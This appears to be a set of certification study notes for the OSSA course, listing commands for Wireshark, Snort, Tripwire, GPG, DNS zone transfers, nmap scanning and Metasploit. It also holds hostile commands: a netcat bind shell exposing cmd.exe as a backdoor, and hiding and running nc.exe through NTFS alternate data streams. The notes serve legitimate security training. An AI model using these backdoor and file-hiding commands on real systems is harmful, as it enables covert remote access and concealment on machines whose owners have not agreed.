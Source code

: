 # OSSA Summary

## Description
Useful notes and summaries for the Organisational System Security Analyst (OSSA) Certification

## Table of Contents
```toc
```

## Commands
### Analysing Wireshark Files
**Filters:**
- Source IP address - `ip.src`
- Destination IP address - `ip.dst`

**Unencrypted network traffic:**
- FTP
- HTTP
- Telnet

### Network-Based IDS Configuration (Snort)
- Starting snort:
```
snort -c /etc/snort/snort.conf
```

- View all Snort logs:
```
tail -f /var/log/snort/alert
```

- Check the latest Snort log:
	- `<filename>` is the desired log file
```
more /var/log/snort/<filename>
```

### File Integrity Checker and Host-Based IDS (Tripwire)
- Take a snapshot of the system:
```
tripwire --init
```

- Check for any changes in the file system:
```
tripwire --check
```

- View Tripwire report:
```
twprint -m r --twrfile /var/lib/tripwire/report/<filename>
```

- Policies can be edited on the Tripwire Policy text file: `twpol.txt`

- Update the Tripwire database whenever `twpol.txt` was edited:
```
tripwire --update --twrfile /var/lib/tripwire/report/<filename>
```

### Cryptography (GPG)
- Generate a new keypair:
```
gpg --gen-key
```

- Import third-party public keys:
```
gpg --import <filename>
```

- View the imported keys:
```
gpg --fingerprint
```

- Sign the imported key to show that verification of the public keys was done:
```
gpg --sign-key <keyid>
```

- Verify the signature of the file:
```
gpg --verify <public_signature> <filename_to_check> 
```


### DNS Reconnaissance
- Find IP address of server:
```
dig securitystartshere.org
```

**dig options:**
- `mx` - find **mail exchanger** records
- `ns` - find **name server** records 
- `soa` - find **SOA (Start of Authority)** 
	- stores information about the name of the server, zone administrator, current version of zone data file etc.

**Perform a zone transfer of the pod's DNS internal server**
```
dig @10.50.6.1 pod6.com axfr
```

### Port Scanning (Nmap)
- **Ping Sweep:**
```
nmap -sP -n 10.50.6.0/24
```

- **SYN Stealth Scan:**
```
nmap -sS <ip address> 
```

- **Suggested SYN Scan:**
```
nmap -sS -n -Pn -vv -p<target port range> -g<source port range> <target IP address> --max-retries=<value> --min-parallelism<value> --max-rtt-timeout=<value>ms
```

- **ACK Scan:**
```
nmap -sA <ip adress>
```

- **OS Version Detection:**
```
nmap -sV -Pn -n -p80,135-139,445 -vv 10.50.6.3
```

### ARP Spoofing
- Find the internet gateway IP address:
```
route -n
ipconfig (Windows)
```

- View ARP cache:
```
arp -a
```

### Exploitation (Metasploit)
- View list of exploit codes:
```
show exploits
```

- Show options supported for an exploit:
```
show options
```

- Set `RHOST`:
```
set RHOST <ip address>
```

- Set `TARGET` option:
```
set TARGET <option number>
```

- Show all targets support for the exploit
```
show targets
```

- Show all payloads offered for the exploit
```
show payloads
```

- Execute the exploit:
```
exploit
```

### Backdoor Deployment
**Stations:**
- station1 - Windows Workstation
- station2 - Linux OS

**Commands:**
- Run netcat on station1:
```
nc -l -p 48800 -e <windows directory name>\system32\cmd.exe
```

- Run netcat on station2:
```
nc <ip address> 48800
```

### File Hiding with Alternate Data Streams
- Using the `type` command to stream (hide) a file:
```
type c:\6\nc.exe . c:\hobbit.txt:hidenc.exe
```

- To run the streamed (hidden) executable:
```
wmic process call create c:\<full file path>:hidenc.exe
```

- Streaming (hiding) a text file:
```
notepad c:\<full file path>:hidden.txt
```

### File Hiding with Steganography
- Using S-Tools
- Test all encryption algorithms to reveal hidden password-protected files
